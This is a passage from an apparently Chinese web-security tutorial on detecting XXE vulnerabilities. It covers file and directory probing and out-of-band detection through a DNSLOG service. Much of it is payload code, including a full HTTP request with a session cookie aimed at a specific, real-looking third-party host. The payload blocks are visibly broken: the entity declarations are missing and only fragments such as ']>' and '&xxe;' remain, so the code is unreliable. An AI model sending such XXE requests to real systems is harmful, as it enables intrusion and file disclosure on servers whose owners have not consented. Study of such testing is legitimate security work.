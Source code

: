 如果两个请求包的返回包一样那么就存在XXE漏洞

### 1.2.3、目录

输入任意文件或目录，查看返回包，如返回500“没有那个文件或目录”，或者返回200“文件内容”则存在xxe漏洞。

```php
win
<?xml version="1.0" encoding="UTF-8"?>

 
]> 

linux
<?xml version="1.0" encoding="UTF-8"?>

 
]> 
```

![image.png](assets/1700812438-d0facd652dd63ccff20e913cab567b70.png)

### 1.2.4、DNSLOG

也可以使用DNSLOG进行测试，使用如下payload，如果dnslog平台能接受到信息，则证明存在xxe漏洞

[http://www.dnslog.cn/](http://www.dnslog.cn/)

```php
POST /dorado/view-service HTTP/1.1
Host: www.nxzhaj.com:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
content-type: text/xml
Content-Length: 133
Connection: close
Referer: http://www.nxzhaj.com:8080/
Cookie: JSESSIONID1=6061F2C1A054E8B25D732A1578F6D443

<?xml version="1.0" encoding="utf-8" ?>

]>
<root>&xxe;</root>
```